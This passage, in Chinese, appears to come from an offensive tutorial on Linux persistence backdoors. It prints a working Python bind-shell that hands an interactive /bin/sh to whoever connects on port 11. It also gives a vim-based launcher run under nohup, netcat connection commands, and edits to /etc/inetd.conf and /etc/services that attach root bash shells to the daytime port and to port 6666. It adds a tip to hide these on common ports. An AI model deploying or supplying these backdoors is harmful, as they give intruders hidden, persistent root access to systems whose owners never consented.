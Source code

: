 恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的 11 端口：

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import \*
import subprocess
import os, threading, sys, time
if \_\_name\_\_ == "\_\_main\_\_":
       server=socket(AF\_INET,SOCK\_STREAM)
       server.bind(('0.0.0.0',11))
       server.listen(5)
       print 'waiting for connect'
       talk, addr = server.accept()
       print 'connect from',addr
       proc = subprocess.Popen(\["/bin/sh","-i"\], stdin=talk,
               stdout=talk, stderr=talk, shell=True)


```

攻击机 nc 连接过去就可以了:

```
nohup vim -E -c "pyfile dir.py"
nc 127.0.0.1 11


```

### 0x08 inetd 服务后门

inetd 是一个监听外部网络请求 (就是一个 socket) 的系统守护进程，默认情况下为 13 端口。当 inetd 接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个 socket 交给那个程序去处理。所以，如果我们已经在目标系统的 inetd 配置文件中配置好，那么来自外部的某个 socket 是要执行一个可交互的 shell，就获取了一个后门。

```
#修改/etc/inetd.conf
$vim /etc/inetd.conf

#discard stream tcp nowait root internal 
#discard dgram udp wait root internal 
daytime stream tcp nowait root /bin/bash bash -i

#开启inetd
$inetd

#nc连接
nc -vv 192.168.2.11 13


```

```
#可以配合suid后门，修改/etc/services文件：
suidshell 6666/tcp
#然后修改/etc/inetd.conf
suidshell stream tcp nowait root /bin/bash bash -i
#可以修改成一些常见的端口，以实现隐藏


```
